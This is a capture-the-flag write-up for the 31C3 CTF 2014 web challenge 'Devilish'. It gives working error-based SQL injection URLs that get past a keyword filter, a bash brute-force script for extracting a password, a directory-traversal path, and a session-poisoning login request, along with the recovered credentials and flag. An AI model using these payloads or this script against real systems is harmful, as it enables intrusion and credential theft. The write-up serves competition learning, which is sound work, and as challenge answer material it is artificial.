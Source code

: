 # 31C3 CTF 2014: Devilish

**Category:** web
**Points:** 30
**Solves:** 24
**Description:**

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> <http://188.40.18.70/>

## Write-up

_by boogy_

The web page reveals a nice vampire-style web page. After some research we can see that there is a SQL injection vulnerability in the `PROFILE` endpoint.

```
http://188.40.18.70/PROFILE/55\/||extractvalue(3,concat(0x3a,(select%0bconcat_ws(0x3a3a,id_user,Us3rN4m3)%0bfrom%0busers%0blimit%0b0,1)))--%0b
```

The font used by the web page is an icon font, so you need to view the HTML source all the time to see the error message from the SQL injection. One of our team members had the idea to disable the `gfx.downloadable_fonts.enabled` option in Firefox through `about:config`. Here’s the result before changing the setting:

![](injection-1.png)

And here is the same page after setting `gfx.downloadable_fonts.enabled` to `false`:

![](injection-2.png)

Better, isn’t it?

OK, so now we know where the injection is and we can run commands. But there’s an annoying filter that prevents us from enumerating columns: things like `information_schema`, `table`, `or`, `union` are all filtered, so we need to find a way around it. What we need is the password column name to be able to log in.

To enumerate the columns without the above keywords we can do error-based SQL injection based on a ‘duplicate keys’ error. This will enumerate the columns for us. So the final exploit for the SQL column problem is:

```
http://188.40.18.70/PROFILE/55%5C/||extractvalue%28null,concat%280x3a,%28select%09*%09from%28select%09*%09from%09users%09as%09a%09join%09users%09as%09b%09using%28id_user,Us3rN4m3,Em4iL4dR3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29as%09x%29%29%29--%0B
```

This gives us:

```
Duplicate column name 'P4sWW0rD_0F_M3_WTF'
```

This is the column we need to extract the password from. So let’s do that:

```
http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x7e,%28select%09concat_ws%280x3a,Us3rN4m3,P4sWW0rD_0F_M3_WTF%29%09from%09users%09limit%091,1%29%29%29--%09
```

This gives us:

```
XPATH syntax error: '~Dracula:ZD456ddssd65456lksndoiN'
```

But when we try to log in with the password it doesn’t work. Maybe the error does not show all the chars from the password? We need to bruteforce the rest of the password with `locate()`. Here is a quick script that does just that:

```bash
#!/usr/bin/env bash
str='ZD456ddssd65456lksndoiNzd654sdsd'
while :; do
  a=0;
  echo "New string: $str";
  for i in {a..z}; do
    wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x3a,%28select%0Blocate("'$str$i'",P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
    if grep ":1" $i; then
      str=$str$i
      a=1;
      echo "$str";
    fi;
  done;
  if [ $a==1 ]; then
    for i in {0..9}; do
      wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,  concat%280x3a,%28select%0Blocate("'$str$i'",  P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
      if grep ":1" $i; then
        str=$str$i
        a=1
        echo "$str";
      fi;
    done;
  fi;
  if [ $a -eq 0 ]; then
    echo "PWD:$str"
    exit;
  fi;
done;
```

This gives us Dracula’s full account password:

```
Username: Dracula
Password: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz
```

After logging in, we found a directory traversal vulnerability that lets us understand that there is another site on the server as mentioned in the challenge description. This source code is different from the original site in `/var/www/html`. The URL
<http://188.40.18.70/ACCESS?action=browse&dir=../../../../../home/devilish.local> reveals the following files:

```
.htaccess
conf.php
images
index.php
__WebSiteFuckingPrivateContentNotForPublic666+666
style.css
```

We can also see the code source of some pages. For example, <http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD> reveals the following code:

```php
<?php
 if(@$_SESSION['user']){header("location: ".$LINK);die();}
 if(isset($_POST['user'])){
  if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
   $_SESSION=$_POST;
   header("location: ".$LINK);die();
  }else{
   $Error=1;
  }
 }
?>
```

And here is the `LOGIN_HEAD` from `devilish.local`:

```php
<?php
  if (@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
  if (isset($_POST['user'])){
    if (@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
      $_SESSION['is_ExclusiveMember']=1;
      header("location: ".$LINK);
      die();
    } else{
      $Error=1;
    }
  }
?>
```

We somehow need to access the second web site. The easiest way to do this is by adding this line to your local `/etc/hosts` file:

```bash
188.40.18.70 devilish.local
```

Now you can browse to <http://devilish.local/>. The source code for its `INDEX` page contains the following:

```php
<?php echo($logged?"Here's your secret ".$flag."":"Login to access the secret")?>
```

However, this website lacks login functionality. Maybe the two websites use the same session? Let’s go back to the first site and log in but this time we send the parameter `is_ExclusiveMember=1` in the `POST` request. Remember the code above that showed us:

```php
$_SESSION=$_POST;
```

So we use Firefox’s [Firefox Hackbar](https://addons.mozilla.org/fr/firefox/addon/hackbar/) and send this:

```
url: http://188.40.18.70/LOGIN
post: is_ExclusiveMember=1&pass=ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz&user=Dracula
```

Once we’re logged in on the first website, visiting the second website reveals a message:

```
This is the private Portal of us

If you are accessing this page this means you are one of the very few exclusive members who are allowed to come in here!

Here's your secret
31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5
```

The flag is `31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`.

## Other write-ups and resources

* <http://0xboogy.blogspot.com/2014/12/31c3ctf-devilish-writeup.html>
* <http://l4w.io/2014/12/31c3-ctf-writeups/>
* <http://kitctf.de/writeups/31c3-ctf/devilish/>
* <http://tasteless.eu/2014/12/31c3-ctf-devilish-writeup/>

